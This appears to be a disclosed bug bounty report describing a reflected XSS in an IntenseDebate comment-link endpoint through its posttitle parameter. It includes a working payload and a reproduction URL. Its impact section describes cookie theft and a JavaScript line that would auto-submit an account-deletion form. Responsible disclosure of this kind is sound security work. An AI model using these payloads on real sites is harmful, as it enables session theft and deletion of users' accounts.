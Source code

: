 # Reflected XSS in https://www.intensedebate.com/js/getCommentLink.php

## Report Details
- **Report ID**: 1043804
- **URL**: https://hackerone.com/reports/1043804
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-11-26T03:44:11.410Z
- **Disclosed**: 2021-01-30T04:45:27.203Z

## Reporter
- **Username**: sudi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
Hey there,
I have found a reflected dom xss vulnerability in your website www.intensedebate.com, the *posttitle* parameter is vulnerable.

---------------------------------------------------------------------------------------------------------------------------------------------------


**Full url:** https://www.intensedebate.com/js/getCommentLink.php?acct=c90a61ed51fd7b64001f1361a7a71191&postid=https://web.archive.org/web/20170820134008/https://mronline.org/2010/12/08/jobs-liberty-and-the-bottom-line/&posturl=https://web.archive.org/web/20170820134008/https://mronline.org/2010/12/08/jobs-liberty-and-the-bottom-line/&posttitle=xss
**Parameter:** posttitle
**XSS Payload:** "><img src=x onerror=alert(1)>

---------------------------------------------------------------------------------------------------------------------------------------------------


**Steps to reproduce:**
Just load this url in your browser and you will get the xss popup

https://www.intensedebate.com/js/getCommentLink.php?acct=c90a61ed51fd7b64001f1361a7a71191&postid=https://web.archive.org/web/20170820134008/https://mronline.org/2010/12/08/jobs-liberty-and-the-bottom-line/&posturl=https://web.archive.org/web/20170820134008/https://mronline.org/2010/12/08/jobs-liberty-and-the-bottom-line/&posttitle=%3Cimg%20src=x%20onerror=alert(document.domain)%3E

---------------------------------------------------------------------------------------------------------------------------------------------------

**POC:**

{F1094491}

-----------------------------------------------------------------------------------------------------------------------------------------------------

## Impact

An attacker steal cookies of logged in users just by sending the url with the xss-payload, can redirect users to another websites,virtual defacement,etc.
Also Looking at the page: https://www.intensedebate.com/your-information, there are two actions available *Account Closure*, *Data export* with the xss we can perform this action on behalf of the user for eg:

```javascript
 document.getElementById('frm2').submit();
```
With a js code like this we can auto submit this  form so that when the user visits the url, his/her account will automatically will be deleted. 


Thankyou
Kind Regards
Sudhanshu

## Attachments
- firefox_I8GqvqVpkn.png
- gfig3x0YLW.mp4
